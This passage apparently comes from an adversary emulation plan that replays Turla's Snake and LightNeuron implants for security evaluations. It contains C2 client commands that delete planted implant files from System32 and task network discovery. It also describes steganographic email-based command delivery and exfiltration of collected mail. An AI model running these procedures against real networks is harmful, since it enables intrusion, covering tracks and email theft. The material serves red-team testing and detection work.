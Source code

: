 :heavy_exclamation_mark: If the output contains any errors, notify your lead.

* Wait 1 minute and then task Snake to remove artifacts from `uosis (10.100.40.102)`:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "del /Q C:\\Windows\\System32\\msiex.ps1 C:\\Windows\\System32\\wdr.rules.xml C:\\Windows\\System32\\mtxconf.dll C:\\Windows\\System32\\mtxcli.dll C:\\Windows\\System32\\perfe009.dat"}'
```

### :moyai: Source Code

* [Installation Script](../../Resources/LightNeuron/msiex.ps1)
* [LightNeuron](../../Resources/LightNeuron/)
  * [Masquerading legitimate file name](../../Resources/LightNeuron/CompanionDLL/data/winmail.dat)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution for generic process with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)

### :microscope: Cited Intelligence

* TBD

## Step 19 - Discovery and Email Collection

:microphone: `Voice Track:`

Step 19 emulates Turla sending several discovery commands to the LightNeuron
implant and collecting and exfiltrating email traffic.

Emails with JPG attachments containing AES encrypted commands embedded using
stegonagraphy are sent from the C2 server to the domain. LightNeuron's
transport agent processes all emails via LightNeuron's companion DLL, which
executes the embedded command and blocks delivery of the email from the C2
server.

LightNeuron automatically collects all emails with recipients matching `nk.local`
in a log file (`C:\Windows\ServiceProfiles\NetworkService\AppData\Local\Temp\msmdat.xml`).

Eventually, LightNeuron is tasked to exfiltrate the email log, which is
exfiltrated over the existing C2 channel.

---

### ☣️ Procedures

* From the Kali C2 lower terminal window, task LightNeuron to perform system
network configuration discovery:

```bash
./evalsC2client.py --set-task info@nk.local '5 | ipconfig /all'
```

